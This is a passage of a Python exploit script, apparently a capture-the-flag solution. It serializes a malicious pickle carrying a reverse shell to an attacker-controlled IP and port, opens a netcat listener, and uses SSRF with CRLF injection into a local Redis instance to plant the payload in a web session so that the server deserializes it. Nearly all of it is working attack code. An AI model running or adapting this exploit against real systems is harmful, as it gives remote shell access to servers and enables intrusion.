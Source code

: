 ```python
	        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("server_ip",server_port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
	    	return (os.system, (s,))
	e = exp()
	s = cPickle.dumps(e)
	shellcode =  s.replace("\n",'\\n').replace("\"","\\\"").replace("server_ip",server_ip).replace("server_port",str(server_port))


# 需要本机可被目标机器寻址，之后可以手动优化shell: python -c "import pty;pty.spawn('/bin/bash')"

def open_nc():
	myos = platform.platform()
	if "Darwin" in myos:
		f = open("nclocal.sh","w+")
		f.write("nc -l "+str(server_port)+"\n")
		f.close()
		os.system("chmod +x nclocal.sh")
		os.system("open -a Terminal.app nclocal.sh")
		time.sleep(2)
		os.system("rm -rf nclocal.sh")
	elif "Linux" in myos:
		os.system("gnome-terminal -e 'bash -c \"nc -l "+str(server_port)+"\"'")

def attack():
	a = requests.session()
	r1 = a.post(base_url+'/login/', data = {'username':'xuan'})
	b = requests.session()
	r2 = b.post(base_url+'/login/', data = {'username':'bling'})
	mysession = r2.cookies['session'][0:36]
	payload = "http://127.0.0.1:6379?\r\nset \"session:"+mysession+"\" \""+shellcode+"\"\r\npadding"
	a.post(base_url+'/download/',data = {'url':payload})
	b.get(base_url)

if __name__ == '__main__':
	gen_shellcode()
	open_nc()
	attack()
```